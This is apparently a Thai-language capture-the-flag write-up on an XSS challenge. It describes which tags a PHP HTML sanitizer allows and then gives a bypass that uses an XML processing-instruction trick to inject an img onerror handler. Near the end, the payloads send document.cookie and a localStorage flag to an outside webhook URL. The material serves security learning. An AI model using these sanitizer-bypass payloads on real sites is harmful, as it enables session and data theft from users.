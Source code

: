 

![alt text](image.png)

bot เก็บ flag ไว้ใน local storage

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-3.png)

## Tags ที่อนุญาต:

### 1. `<div>` tag
```php
(new Behavior\Tag('div', Behavior\Tag::ALLOW_CHILDREN))
    ->addAttrs(...$commonAttrs),
```
- สามารถมี child elements ได้
- อนุญาต attributes: `id`, `class`, `data-*`

### 2. `<a>` tag  
```php
(new Behavior\Tag('a', Behavior\Tag::ALLOW_CHILDREN))
    ->addAttrs(...$commonAttrs)
    ->addAttrs($hrefAttr->withFlags(Behavior\Attr::MANDATORY)),
```
- สามารถมี child elements ได้
- อนุญาต attributes: `id`, `class`, `data-*`, `href` (บังคับ)
- `href` ต้องขึ้นต้นด้วย `http://` หรือ `https://` เท่านั้น

### 3. `<br>` tag
```php
(new Behavior\Tag('br'))
```
- Self-closing tag
- ไม่สามารถมี child elements ได้
- ไม่มี attributes ที่อนุญาต

### 4. `<typo3>` tag (พิเศษ)
```php
new Behavior\Tag('typo3')
```
- จะถูกแปลงเป็น text แทนที่จะแสดงเป็น HTML
- จะกลายเป็น: "TYPO3 says: [เนื้อหาภายใน tag]"

## สิ่งที่ไม่อนุญาต:
- Tags อื่นๆ เช่น `<p>`, `<span>`, `<img>`, `<script>`, `<style>` ฯลฯ จะถูก encode หรือลบออก
- HTML comments (`<!-- -->`) จะถูก encode
- Tags ที่ไม่ถูกต้องจะถูก encode

## ตัวอย่างการใช้งาน:
```html
<!-- ✅ อนุญาต -->
<div id="content" class="container">
    <a href="https://example.com">Link</a>
    <br>
</div>

<!-- ❌ จะถูก encode หรือลบ -->
<p>Paragraph</p>
<span>Text</span>
<img src="image.jpg">
```

![alt text](image-1.png)

![alt text](image-2.png)

```
<?xml >s<img src=x onerror=alert(1)> ?>

<?xml >s<img src=x onerror=alert(fetch('https://webhook.site/d2844994-89b6-4f54-a72d-25a77434596b?cookie='+document.cookie))> ?>

<?xml >s<img src=x onerror=alert(fetch('https://webhook.site/d2844994-89b6-4f54-a72d-25a77434596b?x='+localStorage.getItem('flag')))> ?>
```

https://github.com/Masterminds/html5-php/issues/241

![alt text](image-6.png)